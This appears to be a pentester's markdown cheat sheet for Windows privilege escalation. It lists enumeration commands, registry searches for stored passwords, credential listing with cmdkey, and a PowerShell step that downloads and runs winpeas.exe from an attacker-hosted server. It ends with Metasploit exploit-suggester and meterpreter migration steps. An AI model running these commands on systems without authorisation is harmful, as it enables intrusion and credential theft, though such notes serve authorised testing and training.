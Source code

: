 ### Information Gathering
User Enumeration
- `whoami /priv` Current user privileges
- `net users` List users
- `net user $username` Detail of a specific user
- `qwinsta` Other users logged in

<!-- -->
Misc
- `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"` get OS version
 - `wmic qfe get Caption,Description,HotFixID,InstalledOn` list updates on system
 - `wmic product get name,version,vendor` installed apps
 - `schtasks /query /fo LIST /v` query scheduled tasks
- `driverquery` list drivers installed
- `sc query windefend` is windows Defender on?
- `cmdkey /list` list
- `reg query HKLM /f password /t REG_SZ /s` registry key containing passwords
- `reg query HKCU /f password /t REG_SZ /s` registry key containing passwords
<!-- -->

		Kernal Exploits
- `driverquery`
### Winpeas.exe
Local:
- `python3 -m http.server 80`

<!-- -->
Remote: 
- `powershell.exe -command IWR -Uri $IP/winpeas.exe -OutFile winpeas.exe"`
- `winpeas.exe`
 <!-- -->
 
 [Windows Privesc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
 
 ### Metasploit
 only works if you have meterpreter shell
 
 - `background` background current shell
 - `use post/multi/recon/local_exploit_suggester`
 - `set session 1`
 - `run`
 
 <!-- -->
 You might need to migrate meterprete shell
 - `tasklist` get pids
 - `migrate $PID` in meterpreter